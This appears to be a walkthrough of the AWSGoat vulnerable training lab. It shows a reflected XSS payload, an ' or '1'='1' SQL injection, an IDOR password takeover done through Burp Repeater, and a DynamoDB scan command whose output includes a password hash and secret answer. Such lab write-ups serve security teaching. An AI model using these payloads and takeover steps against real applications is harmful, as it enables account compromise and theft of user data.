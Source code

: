 # Vulnerabilities Exploited

### Reflected XSS

On Home Page search bar type: <img src="A" onerror=alert('XSS')>  

![Screenshot_2023-10-12_10_40_55](https://github.com/lourenco00/AWSGoat-Walkthrough/assets/91602746/60b9e024-8a18-41f2-bba5-a3a2a4ccc517)

### SQL Injection

Once you logged in go to Dashboard > Users, and type    ' or '1'='1'    
And it will retrieve all users.  

![image](https://github.com/lourenco00/AWSGoat-Walkthrough/assets/91602746/8e31bb32-6dbc-4e1b-9421-5172e3c14e26)

### Insecure Direct Object Reference

If we go and change our password and open the Inspect Tools we can see that an id is being passed:

![image](https://github.com/lourenco00/AWSGoat-Walkthrough/assets/91602746/e7111cd7-3500-404e-acea-544ed331a82d)

This means that we may be able to change the other users passwords. For this let's go to Burp Suite, open the explorer and when we get to this form on the dashboard we'll send the request to the Repeater:  
For this go to Burp Suite > Proxy > Open Browser (keep the intercept off until you're in the same form) > Turn on Interception.  
Change the password (example: ola2) and click the button change password.   
Forward the first request that comes up and now click on the request with the right button and send it to repeater:  

![image](https://github.com/lourenco00/AWSGoat-Walkthrough/assets/91602746/51086602-5c02-4688-803b-33d0c3af725c)

Once you're in the repeater change the ID field to an id from 1-7 which are the other users, and then forward the request:  

![image](https://github.com/lourenco00/AWSGoat-Walkthrough/assets/91602746/c5599bcf-bfeb-4c1d-81fa-ad22f3d7db56)

Now that we've changed successfully a password we have 2 options.  
1st: try all possible users since they aren't many and eventually we'll find out who is id 1  
2nd: list all users with the command:  
````
aws dynamodb scan --table-name blog-users --region us-east-1
````
and it will return all the information of the users, including this:

````
{
            "secretQuestion": {
                "S": "What is your favourite sport?"
            },
            "creationDate": {
                "S": "2022-01-25T00:00:00.000Z"
            },
            "address": {
                "S": "Ap #662-2304 Phasellus Ave"
            },
            "secretAnswer": {
                "S": "Football"
            },
            "email": {
                "S": "dolor.fusce@aol.ca"
            },
            "country": {
                "S": "Germany"
            },
            "name": {
                "S": "Naida Dotson"
            },
            "authLevel": {
                "S": "0"
            },
            "password": {
                "S": "$2a$10$ru0QWFM7BFe.e470jT1sz.iMGxjUOrXyyClc9301mcw.fEbcUk/Ta"
            },
            "username": {
                "S": "naidadotson"
            },
            "id": {
                "S": "1"
            },
            "userStatus": {
                "S": "active"
            },
            "phone": {
                "S": "329938731"
            }
        }
````

![image](https://github.com/lourenco00/AWSGoat-Walkthrough/assets/91602746/00623430-9280-4119-aea7-20c0ab0b8f80)

![image](https://github.com/lourenco00/AWSGoat-Walkthrough/assets/91602746/91fbedd9-bafb-42c7-8c06-d9a07d8d08e4)
